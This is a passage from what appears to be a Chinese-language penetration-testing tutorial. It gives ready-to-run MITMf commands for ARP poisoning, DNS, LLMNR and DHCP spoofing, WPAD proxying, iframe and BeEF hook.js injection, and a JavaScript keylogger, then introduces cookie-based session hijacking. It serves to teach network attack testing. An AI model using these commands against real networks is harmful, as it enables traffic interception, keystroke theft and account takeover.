*   您可以在受害者和网关之间执行 ARP 中毒（`10.10.10.1`：

```
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1
```

*   您可以在子网和网关上执行 ARP 中毒攻击时执行 DNS 欺骗（`10.10.10.1`：

```
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1
```

*   您可以使用 MITMf 执行 LLMNR/NBTNS/MDNS 欺骗：

```
python mitmf.py -i eth0 --responder --wredir --nbtns
```

*   您可以执行 DHCP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --dhcp
```

此攻击在攻击后阶段非常有用。

IP 寻址方案和子网信息取自配置文件。

*   可以使用 MITMf 注入 HTML iframe：

```
python mitmf.py -i eth0 --inject --html-url <malicious web URL>
```

*   可以注入 JavaScript 脚本：

```
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js
```

您可以使用`responder`模块将 WPAD 协议作为恶意代理服务器执行 ARP 中毒：

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad
```

以下是可合并的其他参数列表：

*   **屏幕截图**：这允许 MITMf 使用 HTML5 画布，使用`--screen`命令获得客户端 web 浏览器的准确图像。此外，您可以使用`--interval seconds`命令的时间间隔捕获屏幕截图。
*   **键盘记录程序**：`--jskeylogger`命令将 JavaScript 键盘记录程序注入受害者的网页以捕获击键。

请记住，要查看 MITMf 工具的其他参数，可以执行`python mitmf.py --help`命令。

完成本节后，您现在拥有使用 MITMf 执行各种类型攻击所需的技能集。在下一节中，我们将介绍会话劫持攻击。

# 会话劫持

在本节中，我们将在网络上的目标机器上执行会话劫持。要执行此攻击，我们将结合其他一些技术以确保其成功。每当用户访问网站时，web 服务器都会向 web 浏览器发送 cookie。cookie 用于监控用户的活动，并通过跟踪购物车中的物品、在浏览网站的其他区域时保持持久登录等方式提供更好的用户体验。

会话劫持允许攻击者或渗透测试人员在受害者登录网站时捕获并接管（劫持）其他用户的会话。会话劫持允许渗透测试人员捕获会话令牌/密钥，然后用于未经授权访问系统上的信息和资源。例如，捕获登录到其在线银行门户的用户的会话可以允许攻击者访问受害者的用户帐户，而无需输入受害者的用户凭据，因为他们只需向网站/在线门户提供 cookie 数据。
